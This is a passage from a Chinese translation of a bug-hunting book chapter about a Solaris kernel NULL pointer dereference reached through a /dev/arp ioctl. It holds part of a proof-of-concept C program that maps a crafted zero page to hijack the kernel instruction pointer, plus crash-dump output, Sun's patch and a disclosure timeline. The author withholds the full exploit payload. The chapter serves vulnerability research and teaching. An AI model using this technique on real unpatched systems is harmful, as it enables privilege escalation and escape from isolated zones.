 77        printf ("... 0x%02x: 0x%016llx\n", i, *(unsigned long long*)i);
 78
 79      printf ("... 0xa0: 0x%016llx\n", *(unsigned long long*)0xa0);
 80
 81      printf ("[+] The bug will be triggered in 2 seconds..\n");
 82
 83      fflush (0);
 84    }
 85
 86    int
 87    main (void)
 88    {
 89      int   fd  = 0;
 90      char  data[32];
 91
 92      ////////////////////////////////////////////////
 93      // Opening the '/dev/arp' device
 94      printf ("[+] Opening '/dev/arp' device .. ");
 95
 96      fd = open ("/dev/arp", O_RDWR);
 97
 98      if (fd < 0) {
 99        printf ("failed\n");
100        fflush (0);
101        perror ("[-] ERROR: open");
102        return 1;
103      }
104
105      printf ("OK\n");
106
107      ////////////////////////////////////////////////
108      // Map the zero page
109      printf ("[+] Trying to map zero page .. ");
110
111      if (map_null_page () == 1) {
112        return 1;
113      }
114
115      printf ("OK\n");
116
117      ////////////////////////////////////////////////
118      // Status messages
119      status ();
120      sleep (2);
121
122      ////////////////////////////////////////////////
123      // IOCTL request data (interface name with invalid alias ':01')
124      data[0] = 0x3a; // colon
125      data[1] = 0x30; // ASCII zero
126      data[2] = 0x31; // the digit '1'
127      data[3] = 0x00; // NULL termination
128
129      ////////////////////////////////////////////////
130      // IOCTL request
131      syscall (SYS_ioctl, fd, SIOCGTUNPARAM, data);
132
133      printf ("[-] ERROR: triggering the NULL ptr deref failed\n");
134      close (fd);
135
136      return 0;
137    }
```

在 示例 3-2") 的第 19 行，零页通过 `mmap()` 进行映射。但 POC 代码中最有趣的部分是零页数据的布局（见第 32-63 行）。图 3-6 展示了该布局的相关部分。


图 3-6. 零页数据布局

图 3-6 的左侧显示了零页的偏移量。中间列出了零页的实际值。右侧显示了内核对零页的引用。表 3-1 描述了 图 3-6 中展示的零页数据布局。

表 3-1. 零页数据布局描述

| 函数/代码行 | 内核引用的数据 | 描述 |
| --- | --- | --- |
| `ip_sioctl_tunparam()`9432 | `ill = ipif-> ipif_ill;` | `ipif` 是 `NULL`，`ipif_ill` 在 `ipif` 结构体中的偏移量是 `0x8`。因此，`ipif->ipif_ill` 引用地址 `0x8`。地址 `0x8` 中的值被分配给 `ill`。所以 `ill` 结构体从地址 `0x10` 开始（见 图 3-6 中的（1））。 |
| `ip_sioctl_tunparam()`9446 | `putnext(ill-> ill_wq, mp1);` | `ill->ill_wq` 的值用作 `putnext()` 的参数。`ill_wq` 在 `ill` 结构体中的偏移量是 `0x10`。`ill` 结构体从地址 `0x10` 开始，因此 `ill->ill_wq` 在地址 `0x20` 处被引用。 |
| `putnext()`147 | `putnext(queue_t *qp, mblk_t *mp)` | `qp` 的地址等于 `ill->ill_wq` 指向的值。因此，`qp` 从地址 `0x28` 开始（见 图 3-6 中的（2））。 |
| `putnext()`176 | `qp = qp->q_next;` | `q_next` 在 `qp` 结构体中的偏移量是 `0x18`。因此，下一个 `qp` 被分配从地址 `0x40:` 开始的值，即 `qp` 的起始地址（`0x28`）加上 `q_next` 的偏移量（`0x18`）。地址 `0x40` 中的值再次是 `0x28`，所以下一个 `qp` 结构体从与之前相同的地址开始（见 图 3-6 中的（3））。 |
| `putnext()`177 | `sq = qp->q_syncq;` | `q_syncq` 在 `qp` 结构中的偏移量是 `0x78`。由于 `q_syncq` 在之后被引用，它必须指向一个有效的内存地址。我选择了 `0x7d0`，这是一个映射零页中的地址。 |
| `putnext()`180 | `qi = qp->q_qinfo;` | `qp->q_qinfo` 的值被分配给 `qi`。`q_qinfo` 在 `qp` 结构中的偏移量是 `0x0`。由于 `qp` 结构从地址 `0x28` 开始，值 `0x0` 被分配给 `qi`（参见图 3-6 中的(4)）。 |
| `putnext()`273 | `putproc = qi-> qi_putp;` | `qi->qi_putp` 的值被分配给函数指针 `putproc`。`qi_putp` 在 `qi` 结构中的偏移量是 `0x0`。因此，`qi->qi_putp` 在地址 `0x0` 处被引用，并且该地址的值（`0x0000000041414141`）被分配给函数指针。 |

我随后以无特权的用户身份在受限的非全局 Solaris Zone 中编译并测试了 POC 代码：

```
solaris$ `isainfo -b`
64

solaris$ `id`
uid=100(wwwuser) gid=1(other)

solaris$ `zonename`
wwwzone

solaris$ `ppriv -S $$`
1422:   -bash
flags = <none>
        E: basic
        I: basic
        P: basic
        L: zone

solaris$ `/usr/sfw/bin/gcc -m64 -o poc2 poc2.c`

solaris$ `./poc2`
[+] Opening '/dev/arp' device .. OK
[+] Trying to map zero page .. OK
[+] PAGESIZE: 4096
[+] Zero page data:
... 0x00: 0x0000000041414141
... 0x08: 0x0000000000000010
... 0x10: 0x0000000000000000
... 0x18: 0x0000000000000000
... 0x20: 0x0000000000000028
... 0x28: 0x0000000000000000
... 0x30: 0x0000000000000000
... 0x38: 0x0000000000000000
... 0x40: 0x0000000000000028
... 0xa0: 0x00000000000007d0
[+] The bug will be triggered in 2 seconds..
```

系统立即崩溃并重新启动。重启后，我检查了内核崩溃文件（有关以下调试器命令的描述，请参阅 B.1 节）：

```
solaris# `id`
uid=0(root) gid=0(root)

solaris# `hostname`
bob

solaris# `cd /var/crash/bob/`

solaris# `ls`
bounds    unix.0    vmcore.0    unix.1    vmcore.1

solaris# `mdb unix.1 vmcore.1`
Loading modules: [ unix krtld genunix specfs dtrace cpu.generic uppc
 pcplusmp ufs ip hook neti sctp arp usba fcp fctl nca lofs mpt zfs
 audiosup md cpc random crypto fcip logindmux ptm sppp nfs ]

> `::msgbuf`
[..]
panic[cpu0]/thread=ffffffff8816c120:
BAD TRAP: type=e (#pf Page fault) rp=fffffe800029f530
 `addr=41414141` occurred in module
 "<unknown>" due to an illegal access to a user address

poc2:
#pf Page fault
`Bad kernel fault at addr=0x41414141`
pid=1404, `pc=0x41414141`, sp=0xfffffe800029f628, eflags=0x10246
cr0: 80050033<pg,wp,ne,et,mp,pe> cr4: 6b0<xmme,fxsr,pge,pae,pse>
cr2: 41414141 cr3: 1782a000 cr8: c
        rdi:               28 rsi: ffffffff81700380 rdx: ffffffff8816c120
        rcx:                0  r8:                0  r9:                0
        rax:                0 rbx:                0 rbp: fffffe800029f680
        r10:                1 r11:                0 r12:              7d0
        r13:               28 r14: ffffffff81700380 r15:                0
        fsb: fffffd7fff220200 gsb: fffffffffbc27fc0  ds:                0
         es:                0  fs:              1bb  gs:                0
        trp:                e err:               10 `rip:         41414141`
         cs:               28 rfl:            10246 rsp: fffffe800029f628
         ss:               30

fffffe800029f440 unix:die+da ()
fffffe800029f520 unix:trap+5e6 ()
fffffe800029f530 unix:_cmntrap+140 ()
`fffffe800029f680 41414141 ()`
fffffe800029f6d0 ip:ip_sioctl_tunparam+ee ()
fffffe800029f780 ip:ip_process_ioctl+280 ()
fffffe800029f820 ip:ip_wput_nondata+970 ()
fffffe800029f910 ip:ip_output_options+537 ()
fffffe800029f920 ip:ip_output+10 ()
fffffe800029f940 ip:ip_wput+37 ()
fffffe800029f9a0 unix:putnext+1f1 ()
fffffe800029f9d0 arp:ar_wput+9d ()
fffffe800029fa30 unix:putnext+1f1 ()
fffffe800029fab0 genunix:strdoioctl+67b ()
fffffe800029fdd0 genunix:strioctl+620 ()
fffffe800029fdf0 specfs:spec_ioctl+67 ()
fffffe800029fe20 genunix:fop_ioctl+25 ()
fffffe800029ff00 genunix:ioctl+ac ()
fffffe800029ff10 unix:brand_sys_syscall+21d ()

syncing file systems...
 done
dumping to /dev/dsk/c0d0s1, offset 107413504, content: kernel

`> $c`
`0x41414141()`
ip_sioctl_tunparam+0xee()
ip_process_ioctl+0x280()
ip_wput_nondata+0x970()
ip_output_options+0x537()
ip_output+0x10()
ip_wput+0x37()
putnext+0x1f1()
ar_wput+0x9d()
putnext+0x1f1()
strdoioctl+0x67b()
strioctl+0x620()
spec_ioctl+0x67()
fop_ioctl+0x25()
ioctl+0xac()
sys_syscall+0x17b()
```

这次，系统崩溃了，因为内核试图在地址 `0x41414141`（`RIP` 寄存器的值，如上图中调试器输出所示，加粗显示）处执行代码。这意味着我已经成功获得了对 `EIP`/`RIP` 的完全控制。

使用正确的利用有效载荷，这个漏洞可以被用来从受限的非全局 Solaris Zone 中逃逸，然后在全局区域中获得超级用户权限。

由于我家乡的严格法律，我无法向您提供完整的有效利用程序。但是，如果您感兴趣，您可以去本书的网站观看我录制的一段视频，展示了该利用程序的实际操作.^([34])

# 3.3 漏洞修复

### 注意

*星期四，2008 年 6 月 12 日*

在我向 Sun 报告了该错误之后，它开发了以下补丁来解决这个问题：^([35])

```
[..]
19165    if (*cp == IPIF_SEPARATOR_CHAR) {
19166        /*
19167         * Reject any non-decimal aliases for logical
19168         * interfaces. Aliases with leading zeroes
19169         * are also rejected as they introduce ambiguity
19170         * in the naming of the interfaces.
19171         * In order to confirm with existing semantics,
19172         * and to not break any programs/script relying
19173         * on that behaviour, if<0>:0 is considered to be
19174         * a valid interface.
19175         *
19176         * If alias has two or more digits and the first
19177         * is zero, fail.
19178         */
19179        if (&cp[2] < endp && cp[1] == '0') {
`19180            if (error != NULL)`
`19181                *error = EINVAL;`
19182            return (NULL);
19183        }
[..]
```

为了修复这个漏洞，Sun 在 `ipif_lookup_on_name()` 的第 19180 行和第 19181 行引入了新的错误定义。这成功地防止了空指针解引用的发生。尽管这项措施纠正了本章中描述的漏洞，但它并没有解决基本问题。`ipif_lookup_on_name()` 函数以及其他内核函数仍然以两种不同的方式向它们的调用函数报告错误条件，因此如果 API 没有被小心使用，很可能再次出现类似的漏洞。Sun 本应该更改 API 以防止未来的漏洞，但它没有这样做。

# 3.4 经验教训

作为一名程序员：

+   总是定义适当的错误条件。

+   总是正确验证返回值。

+   并非所有内核空指针解引用都是简单的拒绝服务条件。其中一些确实是严重的漏洞，可能导致任意代码执行。

作为系统管理员：

+   不要盲目相信区域、组件、细粒度访问控制或虚拟化。如果内核中存在漏洞，那么几乎每个安全特性都有可能被绕过或规避。这不仅仅适用于 Solaris Zones。

# 3.5 补遗

### 备注

*周三，2008 年 12 月 17 日*

由于漏洞已修复且提供了 Solaris 的补丁，我今天在我的网站上发布了一份详细的安全警告。^([[36])] 该漏洞被分配了 CVE-2008-568。Sun 公司用了 **471 天** 才提供了其操作系统的修复版本（见 图 3-7）。这简直是一个难以置信的漫长时间！



图 3-7. 从通知到发布修复操作系统的时序图

## 备注

^([23])

^([24])

^([25])

^([26])

^([27])

^([28])

^([29])

^([30])

^([31])

^([32])

^([33])

^([34])

^([35])

^([36])

* * *

^([23]) OpenSolaris 的源代码可在 [`dlc.sun.com/osol/on/downloads/`](http://dlc.sun.com/osol/on/downloads/) 下载。

^([24]) 请参阅 [`en.wikipedia.org/wiki/Ioctl`](http://en.wikipedia.org/wiki/Ioctl)。

^([25]) 关于 IP-in-IP 隧道机制的更多信息，请参阅 [`download.oracle.com/docs/cd/E19455-01/806-0636/6j9vq2bum/index.html`](http://download.oracle.com/docs/cd/E19455-01/806-0636/6j9vq2bum/index.html)。

^([26]) 请参阅 Sun Microsystems Inc. 的 *STREAMS 编程指南*，可在 [`download.oracle.com/docs/cd/E19504-01/802-5893/802-5893.pdf`](http://download.oracle.com/docs/cd/E19504-01/802-5893/802-5893.pdf) 下载。

^([27]) OpenGrok 源代码浏览器参考 of OpenSolaris：[`cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/sys/stream.h?r=4823%3A7c9aaea16585`](http://cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/sys/stream.h?r=4823%3A7c9aaea16585).

^([28]) OpenSolaris 的 OpenGrok 源代码浏览器参考：[`cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip.c?r=4823%3A7c9aaea16585`](http://cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip.c?r=4823%3A7c9aaea16585).

^([29]) OpenSolaris 的 OpenGrok 源代码浏览器参考：[`cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c?r=5240%3Ae7599510dd03`](http://cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c?r=5240%3Ae7599510dd03)。

^([30]) 官方的 *Solaris 模块化调试指南* 可以在 [`dlc.sun.com/osol/docs/content/MODDEBUG/moddebug.html`](http://dlc.sun.com/osol/docs/content/MODDEBUG/moddebug.html) 找到。

^([31]) 更多信息，请参阅 twiz & sgrakkyu 撰写的论文“攻击核心：内核利用笔记”，可在 [`www.phrack.com/issues.html?issue=64&id=6`](http://www.phrack.com/issues.html?issue=64&id=6) 找到。

^([32]) 关于 Solaris 进程虚拟地址空间的信息可以在 [`cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/i86pc/os/startup.c?r=10942:eaa343de0d06`](http://cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/i86pc/os/startup.c?r=10942:eaa343de0d06) 找到。

^([33]) OpenSolaris 的 OpenGrok 源代码浏览器参考：[`cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/os/putnext.c?r=0%3A68f95e015346`](http://cvs.opensolaris.org/source/xref/onnv/onnv-gate/usr/src/uts/common/os/putnext.c?r=0%3A68f95e015346)。

^([34]) 请参阅 [`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/)。

^([35]) Sun 提供的补丁可以在 [`cvs.opensolaris.org/source/diff/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c?r1=/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c@5240&r2=/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c@5335&format=s&full=0`](http://cvs.opensolaris.org/source/diff/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c?r1=/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c@5240&r2=/onnv/onnv-gate/usr/src/uts/common/inet/ip/ip_if.c@5335&format=s&full=0) 找到。

^([36]) 描述 Solaris 内核漏洞详细信息的我的安全公告可以在 [`www.trapkit.de/advisories/TKADV2008-015.txt`](http://www.trapkit.de/advisories/TKADV2008-015.txt) 找到。
